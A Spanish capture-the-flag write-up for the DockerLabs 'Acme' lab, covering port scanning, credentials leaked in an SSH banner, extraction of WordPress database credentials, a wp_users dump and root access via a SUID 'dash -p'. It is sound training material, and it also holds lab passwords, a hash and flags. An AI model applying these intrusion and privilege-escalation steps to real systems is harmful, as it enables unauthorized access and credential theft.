







# Acme DockerLabs (Very Easy)

# Contexto de la maquina
## Trayectoria Acme

<figure><figcaption></figcaption></figure>

## Descripción

**Acme** es una máquina Linux de dificultad **Very Easy** en DockerLabs que simula el portal en mantenimiento de una empresa ficticia (**ACME Corporation**). La cadena de compromiso es muy directa y pone el foco en la enumeración básica y el reconocimiento cuidadoso de los recursos que expone el servidor.

El acceso inicial parte de una pista visible en la página principal: el servidor SSH muestra un banner de mantenimiento con credenciales temporales en texto plano. Con esas credenciales accedemos como el usuario `usuario`. La escalada a `root` combina dos técnicas clásicas: extracción de las credenciales de base de datos desde el archivo `wp-config.php` de una instalación WordPress, consulta de la tabla `wp_users` en MariaDB, y finalmente abuso de un binario SUID (`/usr/bin/dash`) que al ejecutarse con el flag `-p` preserva los privilegios de `root`.

**Objetivo**

- Leer el banner SSH para obtener las credenciales temporales de `usuario`.
- Desde `usuario`, encontrar las credenciales de MySQL en `wp-config.php`.
- Conectarse a la base de datos y enumerar la tabla `wp_users`.
- Escalar a `root` mediante el SUID en `dash`.

**Tipo de máquina**

- Plataforma: DockerLabs
- Sistema operativo: Linux (Ubuntu)
- Categoría principal: Web / Linux Privilege Escalation
- Componentes involucrados:
    - Banner SSH con credenciales filtradas en texto plano.
    - WordPress instalado en `/var/www/wordpress/` con `wp-config.php` accesible.
    - MariaDB en `127.0.0.1:3306` con credenciales del `wp-config.php`.
    - Binario `dash` con bit SUID activo.
## Análisis de vulnerabilidades

<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>

## Instalación

Cuando obtenemos el `.zip` lo pasamos al entorno de trabajo y lo descomprimimos:

```shell
unzip acme.zip
```

Montamos la máquina con el script de despliegue automático de DockerLabs:

```shell
bash auto_deploy.sh acme.tar
```

Respuesta:

```
Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Cuando terminemos le damos a `Ctrl+C` para eliminar el contenedor y no dejar archivos residuales.
# Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Respuesta:

```
Starting Nmap 7.99 ( https://nmap.org ) at 2026-09-29 10:13 +0000
Nmap scan report for 172.17.0.2
Host is up (0.000037s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.16 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: ACME Corporation - Portal en Mantenimiento
| http-robots.txt: 1 disallowed entry
|_/migration_notes.txt
|_http-server-header: Apache/2.4.52 (Ubuntu)

Nmap done: 1 IP address (1 host up) scanned in 7.20 seconds
```

Dos puertos abiertos:

- **Puerto 22** → SSH (OpenSSH 8.9p1). El banner SSH será nuestro primer vector de ataque.
- **Puerto 80** → HTTP (Apache 2.4.52). El escaneo ya nos da dos pistas muy valiosas: el título indica que el portal está «en mantenimiento», y el archivo `robots.txt` tiene una entrada bloqueada (`/migration_notes.txt`) que merece inspección.
## Enumeración web

Accedemos a la página:

```
URL = http://<IP>/
```

Respuesta:

<figure><figcaption></figcaption></figure>

La página indica que el portal está en mantenimiento y menciona explícitamente que se puede acceder al servidor por SSH para administrar el sistema. También hay una pista clave en el texto: `El servidor SSH emitirá automáticamente el banner de bienvenida del nodo con el protocolo de mantenimiento`. Esto nos dice que el banner SSH contiene información relevante, aunque todavía no tengamos credenciales válidas.
# Escalate user usuario

<figure><figcaption></figcaption></figure>

## Lectura del banner SSH con credenciales filtradas

Un **banner SSH** es un mensaje de texto que el servidor muestra a cualquier cliente que se conecte, antes de que ocurra la autenticación. Normalmente se usa para mostrar avisos legales o de uso. En este caso, el servidor lo usa para comunicar información de mantenimiento, pero lo ha configurado de forma insegura: las credenciales temporales están visibles en texto plano para cualquier cliente que se conecte al puerto 22.

Nos conectamos con cualquier usuario para ver el banner. El nombre de usuario es indiferente en este punto porque el banner se muestra antes de la autenticación:

```bash
ssh acme@<IP>
```

Respuesta:

```
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
===================================================================
[*] ACME Corporation - Nodo Bastion de Mantenimiento Interno
[!] AVISO DE SEGURIDAD Y ACCESO:
[!] Portal corporativo en proceso de migracion a infraestructura interna.
[!] Credenciales temporales asignadas para tareas de mantenimiento:
[!]   - Usuario: usuario
[!]   - Password: P@ssw0rd2026_CTF!
===================================================================
acme@172.17.0.2's password:
```

El banner nos revela directamente las credenciales: `usuario:P@ssw0rd2026_CTF!`. Cancelamos con `Ctrl+C` y nos reconectamos con el usuario correcto:
## SSH (usuario)

```bash
ssh usuario@<IP>
# Contraseña: P@ssw0rd2026_CTF!
```

Respuesta:

```
Welcome to Ubuntu 22.04.5 LTS...

-bash-5.1$ whoami
usuario
```

Somos `usuario`. Leemos la flag del usuario:

> user.txt

```
FLAG{nmap_recon_ssh_foothold_7a9f24e1}
```
# Escalate Privileges

<figure><figcaption></figcaption></figure>

## Enumeración de servicios internos

Listamos los puertos en escucha para identificar servicios accesibles solo desde localhost:

```bash
ss -tuln
```

Respuesta:

```
tcp   LISTEN   127.0.0.1:9000    0.0.0.0:*
tcp   LISTEN   127.0.0.1:8080    0.0.0.0:*
tcp   LISTEN   127.0.0.1:3306    0.0.0.0:*
tcp   LISTEN   0.0.0.0:80        0.0.0.0:*
tcp   LISTEN   0.0.0.0:22        0.0.0.0:*
```

El puerto `3306` en `127.0.0.1` corresponde a **MariaDB/MySQL**, solo accesible localmente. Para conectarnos necesitamos credenciales.
## Extracción de credenciales desde wp-config.php

Explorando el directorio `/var/www/` encontramos varias aplicaciones web:

```bash
ls -la /var/www/
```

Respuesta:

```
drwxr-xr-x  html
drwxr-xr-x  maintenance
drwxrwxr-x  wordpress
```

Hay una instalación de **WordPress** en `/var/www/wordpress/`. El archivo `wp-config.php` es el archivo de configuración principal de WordPress y siempre contiene las credenciales de acceso a la base de datos:

```bash
cat /var/www/wordpress/wp-config.php
```

Respuesta:

```php
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'wp_user' );
define( 'DB_PASSWORD', 'wp_secure_pass_2026' );
define( 'DB_HOST', '127.0.0.1' );
```

Tenemos las credenciales de la base de datos en texto plano.
## Volcado de la tabla wp_users en MariaDB

Nos conectamos directamente a MariaDB con las credenciales del `wp-config.php`:

```bash
mysql -h localhost -u wp_user -pwp_secure_pass_2026
```

Respuesta:

```
Welcome to the MariaDB monitor.
MariaDB [(none)]>
```

Seleccionamos la base de datos de WordPress y volcamos la tabla de usuarios:

```mysql
use wordpress;
select user_login, user_pass, user_email from wp_users;
```

Respuesta:

```
+------------+------------------------------------------------------------------+----------------------+
| user_login | user_pass                                                        | user_email           |
+------------+------------------------------------------------------------------+----------------------+
| acme_admin | $wp$2y$10$OhOCQwr5CDo1Ov3jCKraruNXaECLzfpAtqDf/KxHZgXEokiWY1vj2 | soporte-it@acme.corp |
+------------+------------------------------------------------------------------+----------------------+
```

Hay un usuario `acme_admin` con hash bcrypt de WordPress (`$wp$2y$`). Intentamos crackearlo pero sin éxito. La base de datos no nos da más privilegios directamente, así que enumeramos otros vectores de escalada.
## Enumeración de binarios SUID

<figure><figcaption></figcaption></figure>

Los binarios con el bit **SUID** activo se ejecutan con los privilegios de su propietario (en este caso `root`) independientemente de quién los lance. Buscamos todos los que estén en el sistema:

```bash
find / -type f -perm -4000 -ls 2>/dev/null
```

Respuesta:

```
3074454  124 -rwsr-xr-x  1 root  root  125688 Mar 23 2022 /usr/bin/dash
```

`/usr/bin/dash` tiene el bit SUID activo y pertenece a `root`. **Dash** es una shell del sistema (similar a `sh` o `bash`) cuyo flag `-p` le indica que preserve los privilegios efectivos del propietario del binario, en lugar de usar los del usuario que lo ejecuta. Al ser SUID de `root`, la shell resultante corre con privilegios de `root`:

```bash
dash -p
```

Respuesta:

```
# whoami
root
```

Ya somos `root`. Leemos la flag final:

> root.txt

```
FLAG{wp2shell_cve_2026_63030_core_rce_root_99d10c8b}
```

